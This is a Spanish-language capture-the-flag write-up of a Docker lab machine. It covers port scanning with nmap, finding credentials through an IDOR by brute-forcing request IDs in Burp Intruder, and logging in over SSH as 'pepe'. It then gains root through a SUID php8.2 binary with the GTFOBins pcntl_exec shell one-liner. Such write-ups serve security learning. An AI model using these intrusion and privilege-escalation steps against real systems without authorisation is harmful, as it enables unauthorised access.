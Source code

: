 ## Document

## **1. Información Inicial**

Desplegamos la maquina con docker

```bash
Máquina desplegada, su dirección IP es --> 172.17.0.2
```

---

## **2. Reconocimiento (Recon)**

### 2.1 Escaneo de Puertos

- [x] **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts 
```

Allports

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

 **Puertos Abiertos**:
 **[Puerto 22]**:

- [x] **Nmap serveis/versions**:

```bash
sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

```

 **Puertos Abiertos**:
 **[Puerto 22]**  OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
 **[Puerto 80]** 80/tcp open  http    Apache httpd 2.4.62 ((Debian))

---

## **2 Enumeración** (Web)

![Pasted image 20250211221856.png](<imagenes/Pasted image 20250211221856.png>)
Analizamos con Burpsuite

![Pasted image 20250211221927.png](<imagenes/Pasted image 20250211221927.png>)
 Vemos que para cada petición , genera un ID
 Vamos a tratar de encontrar ID's generados y ver si contienen algo

Mandamos la petición al Intruder
Creamos un ataque tipo "Sniper" de tipo "Numerico"
Configuramos del 1 al 1000

![Pasted image 20250211222050.png](<imagenes/Pasted image 20250211222050.png>)

En los resultados, ya vemos que por tamaño de respuesta, el ID 21 muestra algo distinto: (Tamaño 16679)
![Pasted image 20250211222217.png](<imagenes/Pasted image 20250211222217.png>)

Comprovamos el ID:
![Pasted image 20250211222251.png](<imagenes/Pasted image 20250211222251.png>)
~~![Pasted image 20250211221729.png](<imagenes/Pasted image 20250211221729.png>)~~

Encontramos login y password

---

## **4. Explotación (Exploit)**

Probamos a ingresar por SSH con ese usuario y contraseña, dado que tiene el puerot 22 abierto

![Pasted image 20250211222541.png](<imagenes/Pasted image 20250211222541.png>)

Accedemos a la maquina como Pepe.

---

## **5. Escalada de privilegios

Ahora, una vez dentro como Pepe, vamos probar a escalar nuestros privilegios

Buscamos permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null

/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/php8.2
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Encontramos `/usr/bin/php8.2
Buscamos en GTFObins

```bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

Explotamos

```bash
pepe@278b98666e01:/usr/bin$ ./php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```

---

## **6. Lecciones Aprendidas**

-
- IDOR en documentos PDF

---

## **7. Recursos**

- **Referencias**:
- GTFObins  

- **Herramientas Utilizadas**:
  - **Nmap**
  - **Burpsuite**

---
